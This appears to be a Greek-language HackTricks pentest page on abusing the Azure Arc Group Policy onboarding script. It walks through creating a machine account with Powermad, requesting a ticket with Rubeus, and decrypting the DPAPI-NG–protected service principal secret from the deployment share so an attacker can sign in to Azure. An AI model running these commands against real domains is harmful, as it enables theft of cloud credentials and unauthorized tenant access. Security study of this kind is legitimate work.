 # Az - Arc ευάλωτο GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Αναγνώριση των Προβλημάτων

Το Azure Arc επιτρέπει την ενσωμάτωση νέων εσωτερικών διακομιστών (διακομιστές που ανήκουν σε τομέα) στο Azure Arc χρησιμοποιώντας τη μέθοδο Group Policy Object. Για να διευκολυνθεί αυτό, η Microsoft παρέχει ένα εργαλείο ανάπτυξης απαραίτητο για την έναρξη της διαδικασίας onboarding. Μέσα στο αρχείο ArcEnableServerGroupPolicy.zip, μπορούν να βρεθούν τα εξής scripts: DeployGPO.ps1, EnableAzureArc.ps1 και AzureArcDeployment.psm1.

Όταν εκτελείται, το script DeployGPO.ps1 εκτελεί τις εξής ενέργειες:

1. Δημιουργεί το Azure Arc Servers Onboarding GPO εντός του τοπικού τομέα.
2. Αντιγράφει το script EnableAzureArc.ps1 για το onboarding στη designated network share που έχει δημιουργηθεί για τη διαδικασία onboarding, η οποία περιέχει επίσης το πακέτο εγκατάστασης των Windows.

Κατά την εκτέλεση αυτού του script, οι διαχειριστές συστημάτων πρέπει να παρέχουν δύο κύριες παραμέτρους: **ServicePrincipalId** και **ServicePrincipalClientSecret**. Επιπλέον, απαιτούνται άλλες παράμετροι όπως ο τομέας, το FQDN του διακομιστή που φιλοξενεί το share και το όνομα του share. Περαιτέρω λεπτομέρειες όπως το tenant ID, η ομάδα πόρων και άλλες απαραίτητες πληροφορίες πρέπει επίσης να παρέχονται στο script.

Ένα κρυπτογραφημένο μυστικό δημιουργείται στον κατάλογο AzureArcDeploy στο συγκεκριμένο share χρησιμοποιώντας κρυπτογράφηση DPAPI-NG. Το κρυπτογραφημένο μυστικό αποθηκεύεται σε ένα αρχείο με το όνομα encryptedServicePrincipalSecret. Απόδειξη αυτού μπορεί να βρεθεί στο script DeployGPO.ps1, όπου η κρυπτογράφηση εκτελείται καλώντας το ProtectBase64 με $descriptor και $ServicePrincipalSecret ως είσοδοι. Ο περιγραφέας αποτελείται από τα SIDs των ομάδων Domain Computer και Domain Controller, διασφαλίζοντας ότι το ServicePrincipalSecret μπορεί να αποκρυπτογραφηθεί μόνο από τις ομάδες ασφαλείας Domain Controllers και Domain Computers, όπως σημειώνεται στα σχόλια του script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Εκμετάλλευση

Έχουμε τις εξής συνθήκες:

1. Έχουμε διεισδύσει με επιτυχία στο εσωτερικό δίκτυο.
2. Έχουμε τη δυνατότητα να δημιουργήσουμε ή να αναλάβουμε τον έλεγχο ενός λογαριασμού υπολογιστή εντός του Active Directory.
3. Έχουμε ανακαλύψει μια κοινή χρήση δικτύου που περιέχει τον φάκελο AzureArcDeploy.

Υπάρχουν αρκετές μέθοδοι για να αποκτήσουμε έναν λογαριασμό μηχανής σε ένα περιβάλλον AD. Μία από τις πιο κοινές είναι η εκμετάλλευση του ποσοστού λογαριασμών μηχανών. Μια άλλη μέθοδος περιλαμβάνει την παραβίαση ενός λογαριασμού μηχανής μέσω ευάλωτων ACL ή διάφορων άλλων κακών ρυθμίσεων.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Αφού αποκτηθεί ένας λογαριασμός μηχανής, είναι δυνατή η αυθεντικοποίηση χρησιμοποιώντας αυτόν τον λογαριασμό. Μπορούμε είτε να χρησιμοποιήσουμε την εντολή runas.exe με την επιλογή netonly είτε να χρησιμοποιήσουμε pass-the-ticket με το Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Με την αποθήκευση του TGT για τον λογαριασμό του υπολογιστή μας στη μνήμη, μπορούμε να χρησιμοποιήσουμε το παρακάτω σενάριο για να αποκρυπτογραφήσουμε το μυστικό του service principal.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Εναλλακτικά, μπορούμε να χρησιμοποιήσουμε [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Σε αυτό το σημείο, μπορούμε να συγκεντρώσουμε τις υπόλοιπες πληροφορίες που χρειάζονται για να συνδεθούμε στο Azure από το αρχείο ArcInfo.json, το οποίο είναι αποθηκευμένο στο ίδιο κοινόχρηστο δίκτυο με το αρχείο encryptedServicePrincipalSecret. Αυτό το αρχείο περιέχει λεπτομέρειες όπως: TenantId, servicePrincipalClientId, ResourceGroup και άλλα. Με αυτές τις πληροφορίες, μπορούμε να χρησιμοποιήσουμε το Azure CLI για να αυθεντικοποιηθούμε ως ο παραβιασμένος service principal.

## Αναφορές

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
